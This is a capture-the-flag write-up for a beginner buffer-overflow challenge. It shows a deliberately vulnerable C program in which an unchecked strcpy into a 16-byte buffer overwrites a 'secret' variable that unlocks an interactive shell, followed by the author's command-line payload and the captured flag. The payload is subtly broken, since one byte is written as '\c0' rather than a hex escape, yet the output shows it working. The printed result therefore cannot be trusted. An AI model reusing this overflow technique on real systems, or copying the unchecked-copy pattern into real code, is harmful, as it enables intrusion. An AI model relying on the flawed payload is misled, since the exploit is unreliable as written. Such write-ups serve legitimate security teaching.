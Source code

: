 # Overflow 1 - 50

```
This problem has a buffer overflow vulnerability! Can you get a shell, then use that shell to read flag.txt? 
You can solve this problem interactively here, and the source can be found here.

```
The website gave us the source code and interactive shell. 

Lets take a look at the source first.

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void give_shell(){
    gid_t gid = getegid();
    setresgid(gid, gid, gid);
    system("/bin/sh -i");
}

void vuln(char *input){
    char buf[16];
    int secret = 0;
    strcpy(buf, input);

    if (secret == 0xc0deface){
        give_shell();
    }else{
        printf("The secret is %x\n", secret);
    }
}

int main(int argc, char **argv){
    if (argc > 1)
        vuln(argv[1]);
    return 0;
}
```

Simple C code. Allocates 16 bytes of char and strcpy. And if secret == 0xc0deface, we get a shell!!!!!
As the ttle of the challenge suggests,we can write 16 bytes and the password to get the shell. 

My payload:

```
pico15664@shell:/home/overflow1$ ./overflow $(python -c "print 'A' * 16 + '\xce\xfa\xde\c0'")
$cat flag.txt
ooh_so_critical

Flag:ooh_so_critical
```






